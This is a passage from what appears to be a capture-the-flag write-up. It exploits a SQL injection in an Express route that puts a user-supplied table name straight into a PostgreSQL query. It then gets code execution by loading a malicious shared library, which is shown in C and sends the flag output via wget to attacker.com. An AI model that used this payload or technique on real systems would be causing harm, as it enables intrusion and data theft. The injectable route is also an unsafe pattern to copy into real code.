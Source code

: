 Remembering this route 

```javascript
router.post("/table", isAdmin, async (req, res) => {
  const { tableName } = req.body;
  try {
    const query = `SELECT * FROM "${tableName}"`;

    if (query.includes(';')) {
      return res
        .status(400)
        .json({ success: false, message: "Multiple queries not allowed!" });
    }

    const results = await runReadOnlyQuery(query);
    res.json({ success: true, results });
  } catch (error) {
    console.error("Table Query Error:", error);
    res.status(500).json({
      success: false,
      message: "Error fetching table data.",
    });
  }
});
```

Its vulnerable to sql injection but it do not allow `;` so we cannot use stacked query to get RCE

We can simply follow this [blog and get RCE](https://adeadfed.com/posts/postgresql-select-only-rce/) by overwriting postgres.conf and loading a malicious shared library.

I will be using this code to read the flag

```C
#include <stdlib.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

void _PG_init(void)
{
    system("wget \"https://attacker.com/?x=$(/readflag)\"");
}
```

Following that blog and uploading this shared library gives us the flag to our webhook
